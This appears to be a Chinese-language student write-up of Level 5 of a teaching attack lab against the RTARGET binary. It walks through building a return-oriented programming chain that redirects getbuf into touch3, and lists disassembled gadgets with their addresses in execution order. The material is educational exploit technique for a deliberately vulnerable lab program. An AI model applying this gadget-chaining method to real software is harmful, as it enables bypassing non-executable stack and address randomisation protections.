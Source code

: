 ### Level 5

#### 要求

针对程序 RTARGET，修改函数 test 调用 getbuf 的返回地址，使其返回 touch3 函数而非 test。

在该实验中，禁止执行栈中的指令，并且栈的地址也会发生变化。因此，Level 1~3 的做法失效了。

#### 做法

做法与 Level 4 类似，但是需要更多的工具片段，额外需要一条 lea 指令计算 cookie 字符串的地址。

关键工具函数及提取的工具片段如下，函数顺序表示了执行顺序：

```assembly
000027 <addval_219>:
   0x4019a7 <+0>:     8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
   0x4019ad <+6>:     c3      retq
   # 提取工具片段
   0x4019ab: 58             pop %rax
   0x4019ac: 90
   0x4019ad: c3

0001b2 <addval_487>:
   0x401a40 <+0>:     8d 87 89 c2 84 c0       lea    -0x3f7b3d77(%rdi),%eax
   0x401a46 <+6>:     c3      retq
   # 提取工具片段
   0x401a42: 89 c2          movl %eax, %edx
   0x401a44: 84 c0          tesb %al, %al
   0x401a46: c3             retq

000196 <getval_159>:
   0x401a33 <+0>:     b8 89 d1 38 c9  mov    $0xc938d189,%eax
   0x401a38 <+5>:     c3      retq
   # 提取工具片段
   0x401a34: 89 d1          movl %edx, %ecx
   0x401a36: 38 c9          cmpb %cl, %cl
   0x401a38: c3             retq

000143 <addval_436>:
   0x401a11 <+0>:     8d 87 89 ce 90 90       lea    -0x6f6f3177(%rdi),%eax
   0x401a17 <+6>:     c3      retq
   # 提取工具片段
   0x401a13: 89 ce          movl %ecx, %esi
   0x401a15: 90             nop
   0x401a16: 90             nop
   0x401a17: c3             retq

0002b8 <setval_350>:
   0x401aab <+0>:     c7 07 48 89 e0 90       	movl   $0x90e08948,(%rdi)
   0x401ab1 <+6>:     c3      					retq
   # 提取工具片段
   0x401aad: 48 89 e0		mov %rsp, %rax
   0x401ab0: 90
   0x401ab1: c3

000016 <addval_273>:
   0x4019a0 <+0>:     8d 87 48 89 c7 c3       lea    -0x3c3876b8 (%rdi),%eax
   0x4019a6 <+6>:     c3                      retq
   # 提取工具片段
   0x4019a2: 48 89 c7		mov %rax, %rdi
   0x4019a5: c3

0000a2 <add_xy>:
   0x4019d6 <+0>:     48 8d 04 37     			lea    (%rdi,%rsi,1),%rax
```